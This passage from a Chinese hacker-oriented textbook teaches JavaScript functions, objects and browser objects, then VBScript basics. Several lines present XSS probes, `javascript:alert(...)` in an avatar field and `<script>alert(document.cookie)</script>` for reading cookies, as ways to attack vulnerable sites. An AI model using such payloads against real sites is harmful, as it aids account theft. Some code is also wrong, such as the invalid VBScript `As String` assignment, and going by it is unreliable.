在变量声明的同时可以给这个变量赋值，即给变量指定一个值，这个过程我们叫做变量的初始化。变量的声明语句的一般格式为：

```javascript
var variable_name=value; // 声明变量的同时初始化变量
var variable_name;       // 声明变量，但是没有初始化
variable_name=value;     // 在为变量赋值的同时声明变量
```

其中，var 是关键字，variable_name 是变量名称，value 是赋给变量的值。如果声明变量，除了在一行中声明一个变量之外，也可以在一行中声明多个变量，各变量之间使用逗号分隔，例如：var name,sex,age;

示例 4-8 演示了变量声明及用法，代码如下：

```html
<html>
<head>
<title>变量声明及用法</title>
<pre>
<script language="JavaScript">
var name="曾云好";            //声明并初始化变量
var sex;                      //声明但未初始化
city="长沙";                  //赋值并初始化变量
age;                          //错误的声明方式
document.writeln("姓名:"+name);
document.writeln("性别:"+sex);
document.writeln("城市:"+city);
document.writeln("年龄:"+age);
</script>
</pre>
</head>
<body></body>
</html>


```

通过上面的代码，加上我的解释，大家可以很快发现 age 这个变量的声明是错误的，所以在运行时就会出现错误，如图 4-14 所示。不过要产生这个错误提示，必须要对 IE 浏览器做一些设置：打开 IE 浏览器的“工具”——>打开“Internet 选项”——>“高级”——>把“显示每个脚本错误的通知”选上，如图 4-15 所示。如果不设置就会出现空白页了。在给 age 变量前加上关键字 var 后就可以正常运行了，因为 age 和 sex 没有赋值，所以它们为 undefined，如图 4-16 所示。
图 4-14
图 4-15
图 4-16

##### 2. 函数

大家都用过电视机的遥控器吧，当我们按下数字 1 之后，电视机就转换到第 1 频道上。而这个时候我们并不关心遥控器、电视机发生了什么，而只关心电视机产生的最终结果：更换频道。这个其实就是函数的工作方式。函数是完成特定任务的一段程序代码，比如在指定的位置显示一幅图像、检测用户输入的有效性等等。函数为程序设计人员提供了许多方便的能力。通常我们要设计一个比较复杂的程序时，总是要根据程序所要完成的功能，将程序划分为一些相对独立的部分，每个部分编写一个函数。从而使程序各个部分充分独立，并完成单一的任务。这样就使整个程序结构清晰，达到易读、易懂、易维护的目标。

Javascript 本身提供了许多内置函数，在编写程序的时候可以直接调用。除此之外，Javascript 还提供了自定义函数的方法，这样我们就可以根据自己的需要编写出自定义的函数，并在开发过程中调用。在 Javascript 中，函数是这样定义的：函数是完成一项任务并返回一个值的一组代码。

在程序中使用函数的过程我们叫做函数的调用，简称调用。函数在调用之前是不执行的，它独立于程序。而只有编写的人才会关心函数具体实现功能的细节，而使用函数的人只需要知道函数的功能、使用方法。这和我们在使用遥控器控制电视机是一样的，遥控器就是相当于我们的函数，函数执行的结果是电视机的频道更换了，而电视机是怎么更换频道的我们并不需要知道，只有生产电视机的厂商才会关心实现更换频道的细节。

在使用函数之前，必须首先定义函数（Javascript 的内置函数是在设计 Javascript 解释器时已经定义好的一组函数，只不过这个定义过程是由解释器的开发者来完成，而不是编写程序的开发者完成，我们这里讨论的定义函数是指由程序开发人员定义的函数）。

定义函数时，先写上关键字 function、函数的名称，然后是一对小括号，括号内可以有一个或多个参数，也可以一个参数也没有。参数的作用是用于得到调用程序时传递给函数的信息。最后是用大括号括起来的一条或多条语句。下面就是一个简单函数定义的示例：

```javascript
function hello() { document.write("欢迎大家学习脚本黑客技术"); };
```

在定义好了这个函数之后，我们就可以使用这个函数了，使用的过程叫函数调用。在 Javascript 中调用函数的方法很简单：写上函数名称、小括号以及小括号中的实际参数（没有参数时可以不写）。例如调用前面我们编写的 hello() 函数的语句可以是：hello();。

定义函数的语法格式有两种，分别为：

```javascript
function func_name() {statement;}
function func_name(para1,para2,.....paran) {statements;}
```

其中，function 是定义函数的关键字；func_name 是函数的名称；para1,para2,.....paran 是函数的形式参数；statements 是函数完成函数功能的一条或者多条语句。相应地，调用函数的语法格式也有两种，分别为：

```javascript
func_name()
func_name(arg1,arg2,......argn)
```

其中，func_name 是函数名称，与定义函数时使用的名称相同；arg1,arg2,......argn 是传递给函数的实际参数，这里的实际参数的类型、个数、意义以及次序要与定义函数时的形式参数相同。

**说明**：  
形式参数：它是在定义函数的时候为函数赋予的参数，代表了参数的位置和类型，所以系统并不会给形式参数分配实际的存储空间，而是在调用函数时由实际参数代表形式参数参与函数的进行。  
实际参数：它是在调用函数的时候传递给函数的参数，通常在调用函数前就已经给这些参数分配了内存，并且包含了实际的数据。所以在函数的执行过程中，实际参数参与了函数的运行。而在函数中定义的形式参数只是表明了调用函数时实际传递给函数的参数类型而已。

示例 4-9 演示了函数定义以及函数调用的方法，代码如下：

```html
<html>
<head>
<title>函数定义以及函数调用</title>
<script language=JavaScript>
function hello(){
var name="欢迎来到脚本黑客世界";
alert("hello"+name+"!");
}
</script>
</head>
<body>
<script language=JavaScript>
hello();
</script>
</body>
</html>


```

在 HTML 的 `<head></head>` 标记中定义了函数 hello()，该函数的功能是弹出一个对话框，显示的信息为“hello 欢迎来到脚本黑客世界！”。而在 `<body></body>` 标记之间调用了函数 hello()。所以函数就执行了，弹出了对话框，如图 4-17 所示。
图 4-17

在示例 4-9 中我们演示了函数的调用过程，其实在 Javascript 可以调用函数的方法有三种，它们分别是：

- 在 Javascript 代码中调用函数
- 在事件响应中调用函数
- 通过链接调用函数

在示例 4-9 中演示的调用函数的方法是属于第一种，在 Javascript 代码中调用函数一般是函数在一段 Javascript 中定义，而在另一个 Javascript 程序中调用函数。一般要遵循先定义后调用的原则。

在事件响应中调用函数是当我们比如单击了某个按钮、单击某个复选框、将鼠标指针移过某个链接时，都会触发事件，最终调用函数进行处理。Windows 操作系统就是一个典型的事件驱动系统，其中的各种操作都是事件。通过编写程序对事件作出反应，这种反应称作响应事件。在 Javascript 中，可以使用函数与特定的事件关联起来，使函数作为事件的事件处理程序。那么当事件发生时，与该事件相关联的函数就被执行，这就是所谓的在事件响应中调用函数。这样说可能大家比较难理解，下面举个例子，为示例 4-10 所示，代码如下：

```html
<html>
<head>
<title>在事件响应中调用函数</title>
<script language=JavaScript>
function haha(){
alert("这是在事件响应中调用函数!\nBY-曾云好");
```

```html
</script>
</head>
<body><center>
<form>
<input type="button" value="请单击这里" onClick="haha();">
</form>
</body>
</html>


```

当我们单击按钮之后，事件就发生了，就会触发在 `<head></head>` 中编写的事件处理函数，弹出一对话框，显示信息为“这是在事件响应中调用函数！BY-曾云好”。如图4-18所示。
图4-18

利用 JavaScript 中的伪协议 `javascript:`，可以通过链接直接调用函数。调用函数的过程为：在 `<a>` 标记中，在关键字 `javascript:` 后面写上要调用函数的名称，用引号把这些内容引起来，然后赋值给 `href` 属性，例如 `<a href="javascript:haha()">请单击这里</a>`。单击这个链接时，指定的 JavaScript 函数就会被调用。如下面的示例4-11，代码如下：

```html
<html>
<head>
<title>通过链接调用函数</title>
<script language=JavaScript>
function xixi(){
alert("这是通过链接调用函数!\nBY-曾云好");
}
</script>
</head>
<body><center>
<form>
<a href="javascript:xixi()">请单击这里</a></form>
</body>
</html>


```

当我们单击链接后，就弹出了对话框，对话框显示的信息为“这是通过链接调用函数！BY-曾云好”，如图4-19所示。其实这个技术也经常用于跨站，比较经典的是自定义头像跨站，在上一章我讲的是通过对 `<script>alert("cmd")</script>` 代码变形后得到自定义头像跨站的，其实还有一种方法，就是输入 `javascript:alert("自定义头像跨站")` 也可以达到跨站。具体的将在本章最后一节中详细说明。
图4-20

这里我们再回顾一下函数的定义：函数是完成一项任务并返回一个值的一组代码。上面我们仔细地演示了函数完成一项任务的过程，而对于函数中返回值却没有说明。所以接下来我们就来讨论一下函数的返回值。

在 JavaScript 中我们可以使用 `return` 语句让函数返回一个值，而这个返回值是给调用函数的。在函数中我们可以使用 `return` 语句，也可以不使用 `return` 语句，但是 `return` 只能出现在函数中。如果程序在执行函数的过程中，遇到了 `return` 语句，那么就不再执行 `return` 语句后面的语句，而将值返回给调用函数程序。不过有一点大家还是要明白，就是如果在函数中没有 `return` 语句，那么 JavaScript 会隐含地在函数末尾添加一条返回 `undefined` 值的 `return` 语句，因此所有的函数都是有返回值的，只不过在没有显式使用 `return` 语句的函数中，系统默认添加了一条返回 `undefined` 值的 `return` 语句，所以其实所有的函数都有返回值，这点大家要明白。

- return 语句有两种形式的语法格式，分别为：
- `return;`
- `return expression;`

其中 `expression` 是一个表达式，它的值作为函数的返回值。例如，下面的函数返回两个数差值：`function maxnum(a,b){ return (a-b); }`。示例4-12演示了 `return` 的用法，代码如下：

```html
<html>
<head>
<title>return的用法</title>
<script language=JavaScript>
function haha(a){
    var b=a*365;
    return b;
}
</script>
</head>
<body>
<script language="JavaScript">
var a=prompt("请输入您的岁数！","");
var tody=haha(a);
alert("你出生了"+tody+"天");
</script>
</body>
</html>


```

在这个示例中，先用 `prompt` 方法输入一个岁数，然后调用函数 `haha` 计算，最后通过 `alert` 返回当前一共出生了多少天，比如我输入我的岁数20，如图4-21，最后弹出了我出生的天数为7300，如图4-22。当然这是一个大概的天数，因为一年我都是取的365天。
图4-20
图4-21

#### 4.2.5 对象

在现实生活中，我们天天和对象打交道。一个人是一个对象、一台电脑是一个对象、一辆汽车是一个对象。对象有许多属性或特性。例如，电脑对象包含了显示器、主机、键盘、鼠标、音响等属性；对象还可以划分为更小的对象，比如主机也是对象，它包含了主板、CPU、内存条、机箱等属性。

编程语言中的对象实际上是对现实世界中对象的抽象和模拟，JavaScript 支持对象。在编程世界中，数据和处理数据的方法结合在一起就构成了对象。对象包括属性和方法两个特点。属性是用于描述对象的特征，比如，一台电脑有一定的颜色、尺寸、重量等特征，这就是这台电脑的属性。方法表示对象能够干什么，比如可以使用电脑来上网、玩游戏。

##### 1. 创建和使用自定义对象

对象不是凭空就有的，所以我们在使用对象之前需要创建对象。而当要应用对象时，就要访问对象的属性和方法。

在 JavaScript 中，创建对象有几种途径，其中最为常用的是使用构造函数。JavaScript 提供了几个内置的构造函数，如 `Object()`、`Array()`、`Date()` 等，其中构造函数 `Object()` 可以用来构造一个空对象，并通过扩展这个空对象来构造需要的对象。构造函数是一种用于创建对象实例的特殊方法，它具备了创建对象并初始化对象的功能，正是由于这种构造对象的特性，才把这种类型的特殊函数称为构造函数。将关键字 `new` 放在构造函数前面就能够创建该构造函数对应的对象。语法格式为：`var myNewObject = new Object(para1,para2……);`。下面是使用构造函数创建对象的几个示例：

```javascript
var cat = new Object();
var MyStudent = new Array("曾云好","土豆");
```

对象的属性是描述对象的特征，它实际上是对象的成员变量。使用点运算符（`.`）将属性与所属对象关联起来。定义属性的方法很简单，即在对象名后面写上点运算符，然后写上对象的属性名。例如一台电脑的颜色为红，那么就可以写成 `Computer.color=Red`。如果对象的属性也是一个对象，那么在创建属性的时候就要用 `new` 关键字和 `Object()` 构造函数创建一个新的对象，并把该新对象的引用赋值给作为属性使用的子对象名称。这样说可能大家很难理解，所以这里我通过示例4-12来说明，它的代码如下：

```html
<html>
<head>
<title>创建和使用对象的属性</title></head>
<body>
<script language=JavaScript>
var vehicle=new Object();
vehicle.car=new Object();
vehicle.car.name="奔驰";
vehicle.car.speed="300公里/小时";
vehicle.car.color="red";
document.write("小汽车的名字："+vehicle.car.name);
document.write("<br>奔驰的速度为："+vehicle.car.speed);
document.write("<br>奔驰的颜色："+vehicle.car.color);
</script>
</body>
</html>


```

上面我们定义了一个交通工具的对象 `vehicle`。而小汽车 `car` 是交通工具对象的一个属性。但是同时小汽车 `car` 也是一个对象，所以在使用 `car` 对象的时候就要像声明对象一样声明这个属性。而同时小汽车 `car` 还有自己的属性，如颜色、速度等等。代码保存后运行结果如图4-22所示。
图4-22

和上面所访问的属性一样，我们同样可以使用点运算符（`.`）访问对象的方法。不过与属性不同的是，方法名称的后面要跟上一个小括号。比如，还是用上面的例子来说明，假设 `vehicle.car` 对象有一个启动汽车的方法 `drive()`，那么就可以使用 `vehicle.car.drive()` 这样的方式来访问这个方法。和函数一样，方法也可以有参数，比如，前面多次调用的 `document.write()` 方法就可以有一个或多个参数。

除了可以使用 `Object()` 等构造函数来创建自定义对象之外，我们还可以通过函数来创建对象。这个时候的函数我们叫对象的模板。我们在定义函数之后，可以使用 `new` 关键字和函数名称一起创建新的对象，并把它赋值给变量。这个时候定义的函数实际上就是一个构造函数。在定义函数时，使用 `this` 关键字来代表函数将来所创建的对象。这样说大家可能还是不明白，下面通过示例4-13来具体说明使用函数来定义的对象，代码如下：

```html
<html>
<head>
<title>创建和使用对象的属性</title></head>
<script language="javascript">
function phone(name,phoneno,site){
    this.name=name;
    this.phoneno=phoneno;
    this.site=site;
}
</script>
<body>
<script language="javascript">
var myphone=new phone("曾云好","0731—123456789","湖南省长沙市");
document.write
("<br>"+myphone.name+"<br>"+myphone.phoneno+"<br>"+myphone.site);
</script>
</body>
</html>


```

我先定义了一个 `phone` 函数，而且在函数里的属性都是使用的 `this` 关键字。而在后面使用关键字 `new` 和函数名来创建一个使用这个函数的对象，并把结果输出，如图4-23所示。
图4-23

##### 2. 浏览器对象模型

通过上面的学习，大家应该知道了 JavaScript 是一种基于对象的语句，它通过操作对象来完成各种任务。浏览器创建的对象我们通常称作文档（Document）对象，但是它只是浏览器使用众多对象中的一部分。浏览器操作的各种对象组合起来我们叫浏览器对象模型（Browser Object Model），简称 BOM。JavaScript 使用的浏览器对象模型如图4-24所示。
图4-24

从图4-24中，我们可以发现 `window` 对象是顶层对象，它包含了相关显示文档的窗口信息，例如窗口中包含的文档、框架、历史、位置等；`navigator` 对象包含了浏览器的信息，例如浏览器的名称、版本、运行平台、是否支持 cookie 等；`frames` 数组用于引用一组窗口对象；`location` 对象存储了当前页面的 URL 地址；`document` 对象即为文档对象，是浏览器对象模型中最重要的对象，也是我们在编程的时候使用最多的对象；`history` 对象记录了当前会话中用户访问了哪些 Web 页面；`screen` 对象提供了当前计算机的显示特性，例如屏幕的宽度、高度、颜色深度等等。由于这部分内容和黑客联系不是非常紧密，所以我就简单说一下 `window` 和 `navigator` 对象，而 `document` 对象在后面我会专门拿出来讲，对于其他对象本书就不讲解。不过对于那些使用 JavaScript 编程的朋友是一定要学会这部分内容，在光盘中我已经为大家收录了几本非常好的 JavaScript 书籍，大家要学这部分内容的话详见光盘。

我们知道，目前世界上的浏览器还是比较多的，常见的有 Internet Explorer、Netscape Navigator、Mozilla Firefox 等等，通过 JavaScript 的内置对象 `navigator` 我们可以知道当前使用的浏览器是哪种类型、哪种版本、是否支持 Java、当前浏览器都有哪些插件（Plug-ins）等信息，从而让程序能够对特殊的浏览器做出相应的处理。常用的 `navigator` 对象的属性如表4-2所示。

| 属性 | 意义 |
|---|---|
| appCodeName | 浏览器的代码名称，只读属性。Netscape 和 IE 的该属性都是“Mozilla”。 |
| appName | 浏览器的实际名称，只读属性。 |
| cookieEnabled | 说明浏览器是否支持 cookies，只读属性。 |
| platform | 给出运行浏览器的操作系统或硬件类型。 |
| systemLanguage | 给出操作系统的缺省语言，只读属性。 |
| userAgent | 给出浏览器在 HTTP 请求中使用的用户代理首部的值。 |

表4-2

而 `navigator` 对象的方法，常用的有 `javaEnabled()`，用来判断当前浏览器是否对 Java 支持。严格地来讲，不同的浏览器支持不同的特性。也就是说，它们有不同的方法和属性。对浏览器很熟悉的朋友还知道，即使同一个浏览器的不同版本之间还是存在着一些差别。示例4-14演示了检测浏览器及其特性，使用了上面列出的浏览器属性和名称。代码如下：

```html
<html>
<head>
<title>检测浏览器及其特性</title></head>
<body>
<h3>检测浏览器的名称、版本号、HTTP用户代理首部的值</h3>
<script language="javascript">
document.write("<b>浏览器名称：</b>"+navigator.appName+"<br>");
document.write("<b>浏览器代码名称：</b>"+navigator.appCodeName+"<br>");
document.write("<b>浏览器是否打开cookie：</b>"+navigator.cookieEnabled+"<br>");
document.write("<b>运行平台：</b>"+navigator.platform+"<br>");
document.write("<b>系统语言：</b>"+navigator.systemLanguage+"<br>");
document.write("<b>浏览器代理用户：</b>"+navigator.userAgent+"<br>");
</script>
</body>
</html>


```

我用 IE 浏览器打开之后就得到了浏览器和操作系统的一些信息，如图4-25所示。当然还可以使用其他浏览器来打开，这里我还用 Firefox（火狐）浏览器打开，如图4-26所示。我们可以对比一下这两个浏览器所包含的信息有哪些相同点和不同点。
图4-25
图4-26

窗口是 JavaScript 浏览器对象模型中的顶层对象，称作 `window` 对象，它代表了打开的浏览器窗口。窗口对象是其他所有对象的基础，它也有自己的属性和方法，用于控制窗口特征和行为。因为窗口对象使用非常频繁，又是其他对象的父对象，所以在使用窗口对象的属性和方法时，JavaScript 允许省略窗口对象的名称，即省略 `window` 这个名称。例如要使用窗口对象的 `alert()` 方法显示一个信息对话框时，正规的写法应该是 `window.alert("hello 曾云好！")`，但是 JavaScript 允许使用简略的写法 `alert("hello 曾云好！")`。

窗口对象有一组丰富的属性和方法。其中有一些属性本身又是一个对象，下面我列举了最为常用的属性和方法。表4-3为窗口对象的属性，表4-4为窗口对象的方法。

| 属性 | 意义 |
|---|---|
| closed | 指明窗口是否已经被关闭，true 表示关闭，false 表示未关闭，只读属性。 |
| document | 只读，为当前窗口或框架包含的 Document 对象的引用。 |
| name | 窗口的名称，窗口名称可以通过 `window.open()` 方法指定。 |
| screenX, screenY | 整数型只读值，指定窗口左上角在屏幕上的 X、Y 坐标。 |

表4-3

| 方法 | 意义 |
|---|---|
| alert(message) | 在对话框中显示消息 message，无返回值。 |
| blur() | 从窗口中移去键盘输入点，无返回值。 |
| close() | 关闭窗口，无返回值。 |
| moveBy(dx,dy) | 将窗口从当前位置移动指定的距离。 |
| moveTo(x,y) | 将窗口移动到指定的位置。 |
| open(url,name,features) | 在 name 参数指定的窗口中显示 url 指定的文档。 |
| setInterval(code,interval,args…) | 每隔 interval 指定的毫秒数就执行一次 code 字符串指定的代码。 |
| setTimeout(code,delay) | 在延迟 delay 参数指定的毫秒数后执行 code 字符串指定的代码。 |

表4-4

上面就是最为常用的属性和方法了。其中 `alert()` 和 `open()` 是最频繁的，`alert()` 上面我已经多次说明了，下面就来看看 `open()` 方法。

除了可以在浏览器中通过执行“文件”→“新建”→“窗口”菜单命令打开一个新窗口外，也可以通过代码来打开一个新窗口。此时，我们需要使用到 `window` 对象的 `open` 方法。其语法格式为：`var window_object=window.open("url",windowname,[features]);`。

例如：`var winobj=window.open("http://www.google.com","google");`

示例4-15演示了 `open` 方法的简单用法。代码如下：

```html
<html>
<head>
<title>open方法的简单应用</title>
<script language="JavaScript">
function openNewwindow(){
var winobj=window.open("http://www.google.com","google");
}
</script>
</head>
<body>
<h3>open方法的简单应用：点击即可打开google</h3>
<a href="javascript:openNewwindow()">点击即可打开google</a>
</body>
</html>


```

这里我们用到了前面的函数调用方式，同时使用了链接触发函数，点击后即可打开 google，如图4-27所示。
图4-27

### 3. Document对象

上面我已经给大家提到了 document 对象，同时在前面我们已经多次使用 document 对象的方法向页面输出数据。上面我们已经知道如何打开窗口、操作窗口、检测浏览器运行平台以及特性。而如果我们想真正控制窗口中的内容，就必须学习 JavaScript 的文档对象模型（DOM，Document Object Model）。利用文档对象模型，使用 JavaScript 操作页面的过程通常我们称为动态 HTML，也称为 DHTML 或 Dynamic HTML。

有一点大家必须要明白：文档对象模型不是 JavaScript 的一部分，而是独立于编程语言和操作平台的一个编程接口，VBScript 同样可以在 IE 浏览器中通过 DOM 操作页面的内容。对于文档对象模型，我这里就不再多讨论其概念的问题，感兴趣的朋友可以参考光盘中的电子书籍。我们把主要精力放在使用文档对象模型访问 document 对象。

在浏览器对象模型中，我们知道 document 对象是 window 的一个属性。document 对象表示浏览器中显示的 HTML 文档，它是客户端 JavaScript 编程最重要的对象之一。Document 对象主要对应于文档主体部分——`<body></body>` 标记之间的内容。Document 对象的访问语法为下述两种格式：

```text
window.document
document


```

document 对象的常用属性如表 4-5 所示。

| 属性 | 意义 |
|---|---|
| bgColor | 指定文档的背景颜色 |
| cookie | 允许读写 HTTP 的 cookie，字符串类型 |
| fgColor | 指定文档的前景颜色，字符串类型 |
| title | 文档标题，对应于文档中的 `<title>` 标记内容 |
| URL | 指定当前文档的 URL，只读属性 |

表4-5

上面列举的是最为常用的属性。对于跨站，我想大家都听过窃取 cookie 吧，其实窃取 cookie 就是利用 document 对象的 cookie 属性。我们只要在存在漏洞的网站输入 `<script>alert(document.cookie)</script>` 就可以窃取到 cookie，如图 4-28 所示。对于窃取 cookie，在后面我会详细地给大家讲解。
图4-28

Document 对象提供了一组操作文档内容的方法，前面我们多次使用的 write() 和 writeln() 就是 document 对象的两个方法。表 4-6 列出了 document 对象的方法。

| 方法 | 意义 |
|---|---|
| open() | 删除现有文档的内容，打开一个新的文档输出流 |
| close() | 关闭 open 方法打开的文档输出流 |
| focus() | 指定文档得到焦点 |
| write(value, ....) | 在当前的文档中插入字符串，或在 open() 打开的文档末尾添加字符串 |
| writeln(value, ....) | 与 write() 方法相同，只是在输出字符串的末尾添加回车换行字符 |

## 4.3 什么是VBScript语言

### 4.3.1 VBScript概述

虽然上面所讲的 JavaScript 和 Java 没有什么关系，但是大家可不要认为 VBScript 和 VB 没什么关系哦，VBScript 和 VB 可是有着非常紧密的联系。VBScript 是由微软提供的一种脚本语言，它是 Visual Basic 编程语言的子集。

VBScript 通常都是和 HTML 结合在一起使用，也就是说，VBScript 是融合在 HTML 或者 ASP 文件中。在一个 HTML 文件中，VBScript 的声明方式和 JavaScript 的声明方式比较类似，具体如下：

```html
<script language="VBScript">
<!--
    '输入VBScript代码
-->
</script>
```

从上面可以看出，VBScript 代码写在成对的 `<script>` 标记之间。代码的开始和结束部分都有 `<script>` 标记。其中 language 属性用于指定所使用的 script 语言。和我们声明 JavaScript 是不是差不多呢。其实呢，浏览器是可以使用多种 script 语言的，其声明方式都差不多，只需要在 language 属性中指定不同的语言即可。

需要注意的是，`<script>` 标记中的 VBScript 代码被嵌入在注释标记（`<!--` 和 `-->`）中，这样能够让那些不能够识别 `<script>` 标记的浏览器将代码当成注释显示在页面中。

前面学习 JavaScript 的时候，大家已经知道 JavaScript 代码可以放在 HTML 文档中头标记 `<head>` 和 `</head>` 或体标记 `<body>` 和 `</body>` 之间，VBScript 代码同样也是放在这些标记之间。通常在客户端获得 HTML 文件代码的时候，Script 代码总是最先被执行的。但是如果把 Script 代码写在函数或者过程（通常是指我们自己定义的函数和过程）中，并且不被调用，那么 Script 代码就永远不会被执行。而如果 Script 代码在函数或者过程之外，但又包含在 `<script>` 标记中，那么就会在页面加载的过程中执行一次 Script 代码，下面通过示例 4-16 来演示。

该例子在 HTML 加载时会自动弹出一个对话框，且仅在加载的时候调用一次，那么在整个页面活动期间不会再弹出该对话框，例子的代码如下：

```html
<html>
<head>
<title>html文件加载时调用VBScript</title>
</head>
<SCRIPT LANGUAGE="VBScript">
<!--
    Msgbox "加载时调用我，我只执行一次哦!"
    ' Msgbox是VBScript的一个内置函数，作用是弹出一个对话框
-->
</SCRIPT>
<body>
学习VBScript
</body>
</html>


```

代码运行的结果如图 4-29 所示。
图4-29

前面我们提到了，如果 VBScript 代码被写在函数或过程中，又不写在其他调用语句中，那么其中的代码就永远不会被解释调用。但是有一个例外，即对事件的响应。因为浏览器自定义了很多内部的函数，这些函数只要有一定的事件激发，就会自动执行，而不需要我们自己写额外的代码。示例 4-17 演示的是在 HTML 文件加载的时候，自动调用函数中的代码，即弹出一个对话框，代码如下：

```html
<html>
<head>
<title>html文件加载时调用VBScript</title>
</head>
<SCRIPT LANGUAGE="VBScript">
Sub Window_OnLoad()
    Msgbox "这是在函数内部自动执行的代码哦！"
End Sub
</SCRIPT>
<body>
学习VBScript
</body>
</html>


```

在 VBScript 中如果出现了 Sub 关键字，那么就表示这是一个过程。Sub 过程是包含在 Sub 和 End Sub 语句之间的一组 VBScript 语句，执行操作但不返回值。由于 Window_OnLoad 是在页面加载的时候自动激活的事件调用，所以在该过程中的代码会被执行。执行的结果如图 4-30 所示。
图4-30

还有一种情况需要注意的是，很多时候，VBScript 的代码或者函数，是通过外部事件来激活调用的，比如单击一个按钮（示例 4-17 其实也是一个事件，只是这个事件是系统自动激活的）。下面通过示例 4-18 来演示一个单击按钮弹出对话框的实例，代码如下：

```html
<html>
<head>
<title>html文件加载时调用VBScript</title>
<SCRIPT FOR="Button1" EVENT="onClick" LANGUAGE="VBScript">
    MsgBox "通过鼠标单击调用的哦!!!"
</SCRIPT>
</head>
<body>
<FORM NAME="Form1">
    <INPUT TYPE="Button" NAME="Button1" VALUE="请单击我哦">
</FORM>
</body>
</html>


```

在这里需要注意的是，`FOR="Button1"` 表示该代码响应名称为 “Button1” 的按钮，而 `EVENT="onClick"` 表示该段代码响应 “Button1” 按钮的单击事件。运行代码后，单击按钮就触发了相应的事件，弹出对话框，如图 4-31 所示。
图4-31

## 4.4 VBScript基础

### 4.4.1 VBScript编程基础

在这几节中给大家补充一些基础知识，如果有 Visual Basic 基础的朋友应该非常熟悉，而没有基础的朋友可要认真了，千万不要打瞌睡哦！因为在 4.8 节中的病毒分析要用到这些基础知识，相信大家一定对病毒很向往吧，那就要打起精神来哦！

### VBScript的数据类型

有编程基础的朋友一定知道，在每种编程语言中都有很多数据类型，如字符型、整型、浮点型等，同样在 VBScript 中也有数据类型。但由于 VBScript 是一种简单同时也是一种很安全的脚本语言，所以它在数据类型上的定义要宽松得多。

VBScript 只有一种数据类型，称为 Variant。Variant 是一种特殊的数据类型，它可以根据不同的使用方式包含不同类别的信息。因为 Variant 是 VBScript 中唯一的数据类型，所以它也是 VBScript 中所有函数返回值的唯一数据类型。

最简单的 Variant 只包含数字或者字符串信息。当上下文都是数字的时候，Variant 将被作为数字处理；当上下文是字符串的时候，Variant 将被作为字符串处理。也就是说，如果使用的数据是数字，则 VBScript 会假定 Variant 为数字并用数字的方式来处理；如果使用的数据只是字符串，则 VBScript 会将 Variant 按字符串来处理。当然，还可以用双引号（""）把任何数据引起来，使其成为字符串。

除了简单的数字或字符串数据以外，Variant 还可以进一步区分数据信息的特定含义，比如可以使用数据信息表示时间或者日期。Variant 包含的数据信息称为子类型。通常情况下，将所需的数据放入 Variant 后，Variant 会自动使用最合适其包含的数据方式操作。Variant 包含的子类型如表 4-7 所示。

| 子类型 | 描述 |
|---|---|
| Empty | 未初始化的 Variant，对于数字变量其值为 0；对于字符变量其值为零长度 |
| Null | 不包含任何有效数据的 Variant |
| Boolean | 其值为 True 或者 False |
| Byte | 取值范围：0~255 内的整数 |
| Integer | 取值范围：-32,768~32,767 |
| Currency | 取值范围：-922,337,203,685,477.5808~922,337,203,685,477.5807 |
| Long | 取值范围：-2,147,483,648~2,147,483,647 内的整数 |
| Single | 包含单精度浮点数，负数范围为 -3.402823E38~-1.401298E-45，正数范围为 1.401298E-45~3.402823E38 |
| Double | 包含双精度浮点数，负数范围为 -1.79769313486232E308~-4.94065645841247E-324，正数范围为 4.94065645841247E-324~1.79769313486232E308 |
| Date(Time) | 包含表示日期的数字，日期范围从公元 100 年 1 月 1 日到公元 9999 年 12 月 31 日 |
| String | 包含变长字符串，最大长度可为 20 亿个字符 |
| Object | 包含对象 |
| Error | 包含错误代码 |

表4-7

### VBScript的变量声明

接触过程序的朋友都知道，大部分的编程工具在使用一个变量之前，都必须首先为这个变量定义一个数据类型。比如 C 语言里一个整数变量 I 是这样声明的：`int I;` 然后才可以使用。而在 Visual Basic 中却没有这样的限制，因此作为 Visual Basic 的子集，VBScript 也没有这方面的限制。所以变量的声明有两种方式，如下所示：

```vb
aaa = "湖南"
bbb = "湖南" As String
```

上面的 aaa 和 bbb 两个变量实际上是相等的。关键字 As 后面跟着这个变量的数据类型，可以是表 4-7 中的任何一个，当然它可以省略，因为系统会根据变量的值来自动获取其最合适的数据类型。上面两个变量是没有声明就进行赋值操作了，虽然这样比较方便，但这样一来就影响了程序运行的效率，同时不利于养成良好的编程习惯。所以一般我们还是要先定义变量，然后再使用变量，变量的定义格式为：`Dim myName`。

定义一个变量的方法是直接使用关键字 `Dim`，同时还可以使用 `Public` 或者 `Private` 关键字来确定这个变量的作用范围。如果需要同时定义多个变量，可以使用如下定义语句：

```vb
Dim myName, yourName, hisName
```

即在多个变量之间用逗号隔开。同时为了让系统自动帮助减少错误，可以在程序代码开始加上一句限制语句，即 `Option Explicit`。这样，如果在编程的过程中没有对变量进行声明，那系统就会报错。

一个变量的作用域是由它声明的位置所决定的，在 VBScript 中，只有两种变量作用范围。第一种是过程级。如果在过程中声明变量，则只有在该过程中的代码可以访问或更改变量值，此时变量具有局部作用域并称为过程级变量。如果在过程之外声明变量，则该变量可以被 Script 中所有的过程识别，称为脚本级或者模块级变量，具有 Script 级作用域。

对于过程级变量，其存活期仅仅是在这个过程运行的时间里，当这个过程结束后，变量就会随之消失，所以当变量在过程内部声明时，变量只能在过程内部看到。可以在不同的过程中使用同名的局部变量，这是因为每个局部变量只被声明它的过程所识别。下面我们来分析一段代码：

```vb
<script Language="VBScript">
<!--
Sub hello()
    Dim aaa            '声明一个aaa的过程级变量
    aaa = aaa + 1
End Sub                '过程级变量的生命周期结束

Sub welcome()
    Dim bbb            '声明本地变量
    bbb = aaa + 10     '会产生错误，因为aaa超出了作用范围
End Sub
-->
</script>
```

与过程级变量不同，当在 `<script>` 标记范围内、但是在所有过程之外声明变量时，脚本级变量可以供声明该变量的 Web 页面的所有过程使用。

VBScript 中变量的赋值同其他语言基本没什么区别，格式如下：

```vb
Dim 变量名
变量名 = 需要赋值的数据或者变量
```

在编程的时候我们经常用到一种数据就是常数，比如使用最为频繁的圆周率 3.14。常数是具有一定含义的名称，用于代替数字或者字符串，常数的值是不变的。在 VBScript 中可以使用 Const 语句来创建用户自定义常数。使用 Const 语句可以创建名称具有一定含义的字符串型或数值型常数，并给它们赋值。例如：

```vb
Const MyString = "这是一个字符串"
Const MyAge = 20
```

需要注意的是，字符串文字包含在两个引号（""）之间，这是区分字符串型常数和数值型常数最明显的方法；日期文字和时间文字包含在两个井号（#）之间，例如：

```vb
Const cutoffDate = #2007-1-11#
```

### 4.4.2 VBScript的控制语句

常用的控制语句总的分为两大类，即条件语句和循环语句。常用的循环语句有如下几种：

